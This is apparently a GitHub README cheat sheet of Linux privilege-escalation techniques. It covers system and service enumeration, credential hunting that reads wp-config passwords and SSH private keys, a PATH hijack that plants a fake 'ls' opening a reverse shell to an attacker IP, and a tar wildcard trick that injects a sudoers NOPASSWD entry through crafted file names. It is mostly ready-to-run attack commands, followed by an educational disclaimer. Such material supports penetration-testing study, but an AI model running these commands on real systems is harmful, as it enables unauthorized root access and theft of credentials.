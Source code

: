 # Linux Privilege Escalation 🚀

This repository contains various Linux privilege escalation techniques, including environment enumeration, service enumeration, credential hunting, path abuse, and wildcard abuse.

---

## 📌 Table of Contents
- [1️⃣ Environment Enumeration](#environment-enumeration)
- [2️⃣ Linux Services & Internals Enumeration](#linux-services--internals-enumeration)
- [3️⃣ Credential Hunting](#credential-hunting)
- [4️⃣ Path Abuse](#path-abuse)
- [5️⃣ Wildcard Abuse](#wildcard-abuse)

---

## 1️⃣ Environment Enumeration 🔍

### OS & Kernel Information:
```bash
cat /etc/os-release          # OS version
cat /proc/version            # Kernel version
uname -a                     # Complete system info
lscpu                        # CPU info
```

### Security Mechanisms:
```bash
# Check for security features
sestatus                     # SELinux status
aa-status                    # AppArmor status
iptables -L                  # Firewall rules
ufw status                   # Uncomplicated Firewall
fail2ban-client status       # Fail2ban status
```

### Drives, Shares & Printers:
```bash
lsblk                         # List block devices
lpstat -a                     # Printer information
```

---

## 2️⃣ Linux Services & Internals Enumeration ⚙️

### Running Processes:
```bash
find /proc -name cmdline -exec cat {} \; 2>/dev/null | tr " " "\n"
```

### Installed Packages:
```bash
apt list --installed | tr "/" " " | cut -d" " -f1,3 | sed 's/[0-9]://g' | tee -a installed_pkgs.list
```

### GTFOBins Exploitable Binaries:
```bash
for i in $(curl -s https://gtfobins.github.io/ | html2text | cut -d" " -f1 | sed '/^[[:space:]]*$/d'); do 
    if grep -q "$i" installed_pkgs.list; then 
        echo "Check GTFO for: $i"; 
    fi; 
done
```

### Find All Shell Scripts:
```bash
find / -type f -name "*.sh" 2>/dev/null | grep -v "src\|snap\|share"
```

---

## 3️⃣ Credential Hunting 🔑

### Find Configuration Files:
```bash
find / ! -path "*/proc/*" -iname "*config*" -type f 2>/dev/null
```

### Extract Database Credentials:
```bash
cat wp-config.php | grep 'DB_USER\|DB_PASSWORD'
```

### Check SSH Keys:
```bash
ls -la ~/.ssh/
cat ~/.ssh/id_rsa
cat ~/.ssh/known_hosts
```

---

## 4️⃣ Path Abuse 🛠️

Modifying a user's `PATH` allows execution of malicious binaries instead of legitimate system commands.

```bash
export PATH=.:$PATH    # Add the current directory to PATH
echo 'bash -i >& /dev/tcp/attacker_ip/4444 0>&1' > ls
chmod +x ls
ls    # Executes our malicious 'ls' instead of /bin/ls
```

---

## 5️⃣ Wildcard Abuse ⚠️

### **Using `tar` for Privilege Escalation**
If a cron job is executing a command like:
```bash
*/01 * * * * cd /home/user && tar -zcf /home/user/backup.tar.gz *
```
We can exploit wildcards:
```bash
echo 'echo "user ALL=(root) NOPASSWD: ALL" >> /etc/sudoers' > root.sh
echo "" > "--checkpoint-action=exec=sh root.sh"
echo "" > --checkpoint=1
```
After the cron job runs, escalate privileges:
```bash
sudo -l    # Verify privilege escalation
sudo su    # Gain root access
```

---

## 📚 References
- [GTFOBins](https://gtfobins.github.io/)
- [HackTricks](https://book.hacktricks.xyz/linux-hardening/privilege-escalation)

---

## ⚠️ Disclaimer
This repository is for **educational purposes only**. Unauthorized testing or exploitation of systems without explicit permission is **illegal**.

---
